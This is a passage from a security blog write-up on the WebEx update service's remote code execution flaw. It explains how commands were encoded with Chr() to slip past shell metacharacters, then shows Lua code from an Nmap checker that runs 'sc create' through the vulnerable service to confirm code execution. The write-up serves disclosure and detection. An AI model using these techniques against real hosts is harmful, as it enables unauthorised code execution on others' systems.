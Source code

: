 First, it replaces the empty string with <tt>mid(Chr(65), 1, 0)</tt>, which works out to characters 1 - 1 of the string "A". Or the empty string!

Second, it replaces every other string with <tt>Chr(n)+Chr(n)+...</tt>. We couldn't use <tt>&amp;</tt>, because that's already used by the shell to chain commands. I later learned that we can escape it and use <tt>^&amp;</tt>, which works just fine, but <tt>+</tt> is shorter so I stuck with that.

And finally, we prepend <tt>cmd /c </tt> to the command, which lets us echo to a file instead of just passing the <tt>&gt;</tt> symbol to the process. We could probably use <tt>^&gt;</tt> instead.

In a targeted attack, it's obviously possible to do this much more cleanly, but this seems to be a great way to do it generically!

<h2>Checking for the patch</h2>

This is one of those rare (or maybe not so rare?) instances where exploiting the vulnerability is actually easier than checking for it!

The patched version of WebEx still allows remote users to connect to the process and start it. However, if the process detects that it's being asked to run an executable that is not signed by WebEx, the execution will halt. Unfortunately, that gives us no information about whether a host is vulnerable!

There are a lot of targeted ways we could validate whether code was run. We could use a DNS request, telnet back to a specific port, drop a file in the webroot, etc. The problem is that unless we have a generic way to check, it's no good as a script!

In order to exploit this, you have to be able to get a handle to the service-controlservice (svcctl), so to write a checker, I decided to install a fake service, try to start it, then delete the service. If starting the service returns either <code>OK</code> or <code>ACCESS_DENIED</code>, we know it worked!

Here's the important code from the <a href='https://github.com/iagox86/nmap-webexec/blob/master/scripts/smb-vuln-webexec.nse'>Nmap checker module we developed</a>:

<pre id='vimCodeElement'>
<span class="Comment">-- Create a test service that we can query</span>
<span class="Type">local</span> webexec_command <span class="Operator">=</span> <span class="String">&quot;sc create &quot;</span> <span class="Operator">..</span> test_service <span class="Operator">..</span> <span class="String">&quot; binpath= c:</span><span class="SpecialChar">\\</span><span class="String">fakepath.exe&quot;</span>
status, result <span class="Operator">=</span> msrpc.<span class="PreProc">svcctl_startservicew</span>(smbstate, open_service_result[<span class="String">'handle'</span>], stdnse.<span class="PreProc">strsplit</span>(<span class="String">&quot; &quot;</span>, <span class="String">&quot;install software-update 1 &quot;</span> <span class="Operator">..</span> webexec_command))

<span class="Comment">-- ...</span>

<span class="Type">local</span> test_status, test_result <span class="Operator">=</span> msrpc.<span class="PreProc">svcctl_openservicew</span>(smbstate, open_result[<span class="String">'handle'</span>], test_service, <span class="Number">0x00000</span>)

<span class="Comment">-- If the service DOES_NOT_EXIST, we couldn't run code</span>
<span class="Conditional">if</span> <span class="Special">string</span>.<span class="PreProc">match</span>(test_result, <span class="String">'DOES_NOT_EXIST'</span>) <span class="Conditional">then</span>
  stdnse.<span class="Special">debug</span>(<span class="String">&quot;Result: Test service does not exist: probably not vulnerable&quot;</span>)
  msrpc.<span class="PreProc">svcctl_closeservicehandle</span>(smbstate, open_result[<span class="String">'handle'</span>])
